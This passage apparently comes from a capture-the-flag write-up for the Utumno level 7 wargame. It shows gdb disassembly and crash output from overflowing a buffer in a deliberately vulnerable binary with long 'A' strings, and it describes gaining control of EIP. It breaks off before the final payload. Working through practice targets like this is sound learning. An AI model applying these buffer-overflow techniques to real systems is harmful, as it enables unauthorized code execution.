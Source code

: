 ```nasm
   0x08048356 <+6>:	push   0x8
   0x0804835b <+11>:	jmp    0x8048330
End of assembler dump.
(gdb) disas jmp
Dump of assembler code for function jmp:
   0x08048536 <+0>:	push   ebp
   0x08048537 <+1>:	mov    ebp,esp
   0x08048539 <+3>:	mov    eax,ds:0x8049868
   0x0804853e <+8>:	push   DWORD PTR [ebp+0x8]
   0x08048541 <+11>:	push   eax
   0x08048542 <+12>:	call   0x8048340 <longjmp@plt>
End of assembler dump.
```

Without reversing the logic of the code, after a few try, I was able to overflow the return address :

```nasm
utumno7@utumno:/utumno$ gdb -q ./utumno7
Reading symbols from ./utumno7...done.
(gdb) set disassembly-flavor intel
(gdb) set disassemble-next-line on
(gdb) run $(python -c 'print "A"*140')
Starting program: /utumno/utumno7 $(python -c 'print "A"*140')
lol ulrich && fuck hector

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
=> 0x41414141:	Cannot access memory at address 0x41414141
```

Then, by adding 4 bytes to the buffer. The code break somewhere at `vuln+42` :

```nasm
(gdb) set disassemble-next-line on
(gdb) run $(python -c 'print "A"*140 + "BBBB"')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /utumno/utumno7 $(python -c 'print "A"*140 + "BBBB"')
lol ulrich && fuck hector

Program received signal SIGSEGV, Segmentation fault.
0x080484d5 in vuln (arg=<error reading variable: Cannot access memory at address 0x4242424a>)
    at utumno7.c:23
23	in utumno7.c
   0x080484c6 <vuln+27>:	8d 85 60 ff ff ff	lea    eax,[ebp-0xa0]
   0x080484cc <vuln+33>:	50	push   eax
   0x080484cd <vuln+34>:	e8 7e fe ff ff	call   0x8048350 <_setjmp@plt>
   0x080484d2 <vuln+39>:	83 c4 04	add    esp,0x4
=> 0x080484d5 <vuln+42>:	89 45 fc	mov    DWORD PTR [ebp-0x4],eax
```

By replacing **BBBB** with an address pointing to our buffer we get the control over the EIP :
